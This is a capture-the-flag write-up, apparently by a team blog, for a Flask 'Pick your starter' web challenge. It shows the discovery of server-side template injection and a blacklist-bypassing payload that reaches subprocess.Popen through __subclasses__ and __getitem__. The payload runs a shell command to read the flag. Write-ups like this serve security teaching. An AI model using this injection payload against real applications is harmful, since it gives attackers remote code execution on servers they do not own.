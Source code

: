 ```yaml
---
layout: post
title: "Pick your starter"
date: 2023-09-12 12:00:00 +0200
---
```


We have a website which displays pokemon

![Alt text](https://raw.githubusercontent.com/BasiliCS/writeups/pctf/pctf/web/pick-your-starter-0.png)

The server header reports `Werkzeug` so we tried the `/console` endpoint. (checkout `debug=True` shell that `Werkzeug` offers and was behind the [2015 Patreon Hack](https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/))

![](https://raw.githubusercontent.com/BasiliCS/writeups/pctf/pctf/web/pick-your-starter-1.png)

## Vulnerability

After some experimentation we discover that there is a **template injection attack**, let's see the result for `/{{7*6}}`

![Alt text](https://raw.githubusercontent.com/BasiliCS/writeups/pctf/pctf/web/pick-your-starter-2.png)

We also notice that many characters are blacklisted including `-+'"[]`.

Although this webpage is entertaining, for the rest of this challenge we will be using a python script with `BeautifulSoup` to extract the interesting text:

```py
import requests
from bs4 import BeautifulSoup
page = requests.get("http://chal.pctf.competitivecyber.club:5555/{{7*6}}")

soup = BeautifulSoup(page.content, "html.parser")

prefix_len = len("<h1>\"b'")
suffix_len = len("'\" isn't a starter Pokémon.</h1>")

extracted = str(soup.find_all("h1")[0])[prefix_len:-suffix_len]

print(extracted)
```

## Exploit

We would like to get RCE on the server. Given the black list, we are able to access a global object through `()` climbing to the base class `object` we are able to list all available classes with the `__subclasses__` method.

The URL looks like this:
`http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__()}}`

The response looks like this (the final list is a lot longer):

```
"lt;class 'type'&gt;, &lt;class 'async_generator'&gt;, &lt;class 'bytearray_iterator'&gt;, &lt;class 'bytearray'&gt;, &lt;class 'bytes_iterator'&gt;, &lt;class 'bytes'&gt;, &lt;class 'builtin_function_or_method'&gt;, &lt;class 'callable_iterator'&gt;, &lt;
```

We are interested in the 455th element: `subprocess.Popen` as it will give us a shell.

We cannot use `[]` characters so we have to use the `__getitem__` method.

Finally, we want to pass our string command to the constructor, this can be easily done using `request.args.shell` and passing an argument `?shell=cat /flag.txt`.

The final URL:
`"http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__().__getitem__(455)(request.args.shell,shell=True,stdout=(1).__neg__()).communicate()}}?shell=cat ../flag.txt"`

## The flag

`PCTF(wHOS7H47PoKEmoN)`
